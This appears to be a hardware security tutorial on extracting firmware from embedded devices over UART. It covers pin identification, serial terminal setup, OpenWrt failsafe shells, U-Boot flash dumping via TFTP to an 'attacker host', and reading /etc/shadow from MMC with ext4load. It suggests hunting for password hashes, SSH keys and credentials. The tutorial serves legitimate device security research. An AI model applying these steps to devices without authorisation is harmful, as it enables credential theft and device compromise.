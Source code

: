 # Extract Firmware using UART

After finding a UART connector on a PCB we can try to extract firmware over it.

### Steps to Extract Firmware Over UART

#### 1. **Identify UART Pins**

* Locate the UART pins (TX, RX, GND, and possibly VCC) on the target device. The device’s documentation or datasheet may provide this information.
* Typically, the pins are labeled as follows:
  * **TX** (Transmit) \[fluctuate Voltage, when data is transmitted]
  * **RX** (Receive) \[may look like VCC pin, when not connected: 3.3V]
  * **GND** (Ground) \[0V]
  * **VCC** (Power, optional) \[common to have: 3.3V or 5V]

#### 2. **Connect the UART Adapter**

* You need an **USB-to-UART Adapter**: FTDI FT232, CP2102, CH340, etc.
* Use jumper wires to connect the UART adapter to the target device as follows:
  * **TX (Adapter) → RX (Device)**
  * **RX (Adapter) → TX (Device)**
  * **GND (Adapter) → GND (Device)**
  * **VCC (Optional, Adapter) → VCC (Device)** (if powering the device through the adapter)

#### 3. **Configure Serial Terminal**

* Open your serial terminal software and configure the following settings:
  * **Baud Rate**: Common values are 9600, 115200, or as specified in the device’s documentation (picocom also has a feature to adjust the baud rate on the fly (check docs)).
  * **Data Bits**: 8
  * **Parity**: None
  * **Stop Bits**: 1
  * **Flow Control**: None

{% tabs %}
{% tab title="Linux" %}
```bash
sudo minicom -D /dev/ttyUSB0 -b 115200
sudo picocom -b 115200 -r -l /dev/ttyUSB0
```
{% endtab %}

{% tab title="Windows" %}
**Using PuTTY (Windows)**:

* Select “Serial” and enter the COM port (e.g., COM3) and baud rate (115200).
{% endtab %}
{% endtabs %}

#### 4. **Establish Connection**

* Open the connection in the serial terminal software. Depending on the device and its bootloader, there are many different options how the UART is implemented. It is a good sign if you see a terminal interface that may display boot messages or a command prompt from the target device.
*   If you see something like this: you may adjust the baud rate as it is probably wrong

    <figure><img src="../../../.gitbook/assets/image (54).png" alt=""><figcaption><p>False baud rate</p></figcaption></figure>
*   If you see a boot log:

    * Restart the device again and capture the full bootlog, as it can contain important information
    * The MTD partition for example can tell us where the root filesystem is stored

    <figure><img src="../../../.gitbook/assets/image (70).png" alt="" width="341"><figcaption><p>MTD partitions created</p></figcaption></figure>

#### Not all UART interfaces are the same. Infect manufacturers could output actually anything over it. But there are common methods, which we want to discuss further:

{% tabs %}
{% tab title="Failsafe mode" %}
Some manufacturers build a failsafe mode in their devices, which is designed as a recovery option, if the device is not operating correctly. An example for this is OpenWRT, which will print something like this in the bootlog:

```
Press the [f] key and hit [enter] to enter failsafe mode
Press the [1], [2], [3] or [4] key and hit [enter] to select the debug level  
```

Pressing `F`  will give us a root shell:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption><p>OpenWrt command command shell</p></figcaption></figure>

From here we can check if the root-filesystem is already been mounted and we can look for:

* /etc/shadow hashes
* ssh private keys
* other credentials
{% endtab %}

{% tab title="U-Boot" %}
If U-Boot is used, chances are that the "stop autoboot" function may not be disabled. Here we have to press any key within a certain timespan (for example 5 sec) and we will be provided with a U-Boot shell

<figure><img src="../../../.gitbook/assets/image (33).png" alt=""><figcaption></figcaption></figure>

Typing `help` will give us a list of all available commands

To dump the firmware, we can then use one of these options:

1. **Using TFTP:**
   1. On your attacker host:
      1. Set up a TFTP server `sudo apt install tftpd-hpa` (files will be stored in`/srv/tftp`)
      2. Create a firmware.bin file, as in TFTP that can't be done by the client:
         1. ```
            cd /srv/tftp
            sudo touch firmware.bin
            sudo chmod 666 firmware.bin
            ```
   2. In U-Boot:
      1. Setup IP-Adresses:
         1. ```
            setenv ipaddr <IP of target> (e.g.: 10.0.0.2)
            setenv serverip <IP of attacker host> (e.g.: 10.0.0.1)
            ```
      2. check if IP Adress are saved: `printenv`
   3. Initialize the flash with `sf probe 0`.
   4. Copy the flash contents to RAM (adjust offset and size):&#x20;
      1. `sf read <addr in RAM> <offset in flash> <size>`
      2. `sf read 0x82000000 0x0 0x1000000`. (=16MB in this case)
   5. Transfer the data with TFTP:&#x20;
      1. `tftp <addr> <filename> <size>`
      2. `tftp 0x82000000 firmware.bin 0x1000000`.
2. We can also dump it in the console: (CAN BE SLOW!)
   1. Read data:
      1. `md.b <offset to read from> <number of bytes to read>`
      2. example: `md.b 0x82000000 0x1000000`
   2. Save data to file using `CTRL-A L` in minicom for example (has to be trimmed)
3. If we want to dump from an MMC:
   1.  ```bash
       #list available MMCs
       mmc list
       # select an MMC to dump (we have to select one else next commands fail)
       mmc dev 0
       #get info of mmc
       mmc info
       # get partition to see which partition we wanna dump (e.g. rootfs)
       mmc part
       # search in partition
       ext4ls mmc <device>:<partition> <path>
       ext4ls mmc 1:8 /home/root
       # read file from MMC to RAM
       ext4load mmc <device>:<partition> <memory_address in ram> <file_path>
       ext4load mmc 1:8 0xC6200000 /etc/shadow
       # show the file from memory
       md.b <memory_address in ram> <size>
       md.b 0xC6200000 0x43C
       ```

       Tool that does these steps automatically: https://github.com/nmatt0/firmwaretools
{% endtab %}

{% tab title="Root-shell" %}
If you drop directly into a root shell or if you can figure out the root-password (e.g. default creds), you can simply `dd` the partition to a usb stick or transfer it another way.

Example:

```bash
sudo dd if=/dev/sda of=/dev/sdb bs=4M status=progress
```

Replace:

* `/dev/sda` with your root filesystem device
* `/dev/sdb` with your USB stick device

Ensure you verify the correct device paths to avoid overwriting important data. You can use `lsblk` or `fdisk -l` to check your devices.
{% endtab %}
{% endtabs %}

## Analyze firmware

* Using `binwalk firmware.bin` we can try to analyze the firmware and extract sensitive information
* check the "Analyze Firmware" chapter

## Resources

[https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart](https://www.cyberark.com/resources/threat-research-blog/accessing-and-dumping-firmware-through-uart)\
[https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd](https://slava-moskvin.medium.com/extracting-firmware-every-method-explained-e94aa094d0dd)
